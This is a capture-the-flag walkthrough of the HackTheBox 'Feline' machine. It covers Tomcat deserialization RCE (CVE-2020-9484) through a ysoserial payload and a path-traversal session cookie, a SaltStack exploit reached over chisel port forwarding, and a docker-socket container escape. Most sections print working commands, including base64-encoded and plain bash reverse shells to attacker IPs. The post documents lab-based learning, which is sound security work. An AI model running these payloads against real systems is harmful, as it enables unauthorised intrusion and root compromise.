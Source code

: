 ```yaml
---
title: HackTheBox Feline
author: Marius Kimmina
date: 2021-03-08 14:10:00 +0800
categories: [HackTheBox]
tags: [docker][linux][tomcat]
---
```


## 0x0 Introduction
The first **hard** box that I have ever pwned, so lets dive right into it. This box involved a java deserialization attack to first get an inital foothold, once we are on it we use a known exploit in `saltstack` to become root of docker container, now you might wonder: Why would we want to become root of a docker-container? Well this docker container also had a miss configuration issue which then allowed us to mount files from the host system, such as the root.txt, into the container.
![image](/assets/images/feline/feline-pwn.png "Feline has been pwned")

## 0x1 How not to handle error messages

As always I start with an nmap scan, 

```
$ nmap -sC -sV -oN recon/nmap-default 10.10.10.205
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-01 08:24 GMT
Nmap scan report for feline.htb (10.10.10.205)
Host is up (0.39s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.27
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


if we look at the website, running on port 8080, we see that this is some kind of malware analysis engine, called Virusbucket, and that we can upload files. 

![image](/assets/images/feline/feline-virusbucket.png "Feline Virusbucket")

if we capture the HTTP request for the file-upload, you can use a proxy like burp or ZAP for this, then you will see this:

![image](/assets/images/feline/feline-file-upload.png "Feline Upload")

But if we replace the filename here with some nonsense, then we can error from the application in which it leaks the location that our files are being upload to:

![image](/assets/images/feline/feline-upload-error.png "Feline Upload Error")

Which is some really useful information because if we can find a way to interact with the files that we have uploaded, through a tomcat vulnerability for example, then we need to know where to look for our uploaded files.

## 0x2 Cuz there is always a tomcat vulnerability

Since it's tomcat and we now that it's version 9.0.27 I, like most people solving this box probably, looked for a vulnerability in that found this blogpost: https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/ and the CVE in question is: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9484.  
If you are solving this box after it has retired and are following along with this post of mine I highly suggest that you go and read the "redtimmy" post, it was well written and to the point. 
The whole point of this exploit is that, if we can get a serialized object on the disk, which we can by simply uploading it, we can use a path traversal vulnerability in the Session-Cookie to get tomcat to deserialize it, which in turn can give us code execution on the box.  
Since we know that our upload files go to `/opt/samples/uploads/` we can set our `JSESSIONID` to `../../../../../../../opt/samples/uploads/the-file-that-we-have-uploaded`  
To create such a serailized object we use `ysoserial` which you can find here: https://github.com/frohoff/ysoserial  
The error message of the File upload had also told us that this uses apache.org.commons which is a libarry for all sorts of common deserializations. Knowing that we can use `ysoserial` with the `CommonCollections4`.  

First we create our reverse shell command and encode it with base64 to avoid spacing errors

```
echo 'bash -i >& /dev/tcp/tun0/4141 0>&1' | base64
```
Then we use ysoserial to prepare our exploit, notice that we use the {} bash syntax to, again, avoid spaces.
```
java -jar ysoserial.jar CommonsCollections4 "bash -c {echo,ZWNobyAnYmFzaCAtaSA+JiAvZGV2L3RjcC90dW4wLzQxNDEgMD4mMSc=}|{base64,-d}|{bash,-i}" > exploit.session
```

Upload the file either through the website or by using `curl`

```
curl 'http://10.10.10.205:8080/upload.jsp' -F "image=@exploit.session"
```

and use netcat to listen for incomming connections:

```
nc -lvnp 9009
listening on [any] 9009 ...
```

Now send another request with the malformed cookie to execute the payload

```
curl 'http://10.10.10.205:8080/upload.jsp' -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/exploit"
```

## 0x3 Why so salty?

Now that we are on the host we discover that port 4005 and 4006 are open, these ports are, by default, used by saltstack. Saltstack is an infrastructure management software but for this box we don't need to know much about how it acctually works. What we do need to know though is that there was a very recent vulnerabily in it. If you wanna read more details about the vulnerability you can go here: https://www.helpnetsecurity.com/2020/05/04/saltstack-salt-vulnerabilities/  
Otherwise we are going straight to the exploit which can be found here: https://www.exploit-db.com/exploits/48421  
If we are gonna try to run this on the victim maschine we are going to run into an issue, which is that the `salt` python module is not installed on the box. 

```
$ python3 exploit.py 
Traceback (most recent call last):
  File "exploit.py", line 16, in <module>
    import salt
ModuleNotFoundError: No module named 'salt'
```

## 0x4 Port forwarding to the rescue

So since the saltstack ports are on only listening on localhost, we cannot use the exploit from our box directly but since we are already on the box we can use a programm called `chisel` to do port forwarding and thus make the saltstack accessible from our host maschine.  
First, to get chisel on the victim maschine, go download it from https://github.com/jpillora/chisel/releases and then you can simply use the python http server to transfer it to the box.

```
$ python3 -m http.server
```

Use wget to download chisel on the victim maschine.

```
$ wget http://10.10.16.11:8000/chisel
```

Now we forward some ports as follows:

```
./chisel client 10.10.16.11:5566 R:4506:127.0.0.1:4506
```

and 

```
./chisel server -p 5566 --reverse
```

And now we can use the exploit on our own maschine against localhost, this will then be forwarded to the victim. We want to get a new shell here so lets first setup netcat again

```
nc -lvnp 5577
```

With that running we can finally use the exploit and get a new shell on the box.

```
python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.43/5577 0>&1"'
```

If everything has worked correctly here, we are `root`, yay! But it's still to early to celebrate, because we are root on a docker container, not the box itself. So we went from being a normal user on the box, to being root in docker container. That would under normal circumstances be considered a downgrade since being root of the container does not give us any more access but let's see...

## 0x5 The great docker escape

The first thing I noticed inside this container was a file called "todo.txt" inside the home directroy of the root user 

```
cat todo.txt
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.
```

On top of that I also noticed that the history file was not empty, it contained a lot of commands but one seemed particullarly interessting to me:

```
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

If I go ahead and run this one myself we get the following output:

```
root@2d24bf61767c:~# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
<t /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
```

From that we know that the container we are in is called `sandbox`. We are now able to copy the docker binary from the victim maschine into the docker-container. With our tomcat shell on the box we execute the following commands:

```
cd tmp
cp /usr/bin/docker .
python3 -m http.server 9009
```

Next, in the docker-container we download the docker-binary and make it executeable:

```
wget http://172.17.0.1:9001/docker
chmod +x docker
```

With this we can copy contents from the victim maschine into the docker-container using the following command (inside docker):

```
./docker run -v /:root/:root -it sandbox
```

And we are done, we are now able to access the root flag with a simple `cat root/root.txt`

## 0x6 Closing Words

This was the first `hard` box that I have ever owned and I learned a lot from it, the privilege escalation from normal user to root of docker container was a nice twist that we have never before seen on any other box (as far as I know) and I learned a lot from that. My respect to the creators of this awesome challenge.




